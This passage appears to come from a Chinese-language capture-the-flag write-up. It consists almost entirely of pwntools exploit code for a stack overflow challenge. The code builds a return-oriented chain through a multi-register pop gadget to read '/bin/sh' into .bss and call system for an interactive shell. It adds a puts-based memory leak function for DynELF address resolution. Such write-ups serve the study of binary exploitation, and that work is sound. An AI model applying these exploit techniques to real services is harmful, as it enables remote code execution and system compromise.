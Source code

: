```
bssAddress = 0x601070
poprdi =     0x4008a3
print p.recv(1024)
payload = "A" * 24
payload += p64(popr12r13r14r15)
payload += p64(pop6address) + p64(0) + p64(1) + p64(readgot) + p64(8) + p64(bssAddress) + p64(0)
payload += p64(movcalladdress)
payload += "A" * 56
payload += p64(poprdi)
payload += p64(bssAddress)
payload += p64(systemAddress)
payload = payload.ljust(1024, "C")
p.send(payload)
p.send("/bin/sh\x00")
p.interactive()
```

由于该题目程序中也包含puts函数，故我们也可以用puts函数来实现leak，代码如下。

```
def leak(address):
  count = 0
  data = ''
  print p.recv(1024)
  payload = "A" * 24
  payload += p64(popr12r13r14r15)
  payload += p64(poprdi) + p64(address)
  payload += p64(putsplt)
  payload += p64(startAddress)
  payload = payload.ljust(1020, "B")
  p.send(payload)
  #由于echo函数最后会输出复制过去的字符串，而该字符串是popr12r13r14r15，故我们可以将该gadget的地址作为判断输出结束的依据
  print p.recvuntil("\x9c\x08\x40") 
  up = ""
  while True:
    c = p.recv(1)
    count += 1
    if up == '\n' and c == "W": #下一轮输出的首字母就是“Welcome”中的“W”
      data = data[:-1]
      data += "\x00"
      break
    else:
      data += c
    up = c
  data = data[:4]
  print "%#x => %s" % (address, (data or '').encode('hex'))
  return data
```

参考文章

[Pwntools中的DynELF模块的使用](http://klaus.link/2016/Python-Pwntools-DynELF%E6%A8%A1%E5%9D%97%E7%9A%84%E4%BD%BF%E7%94%A8/)
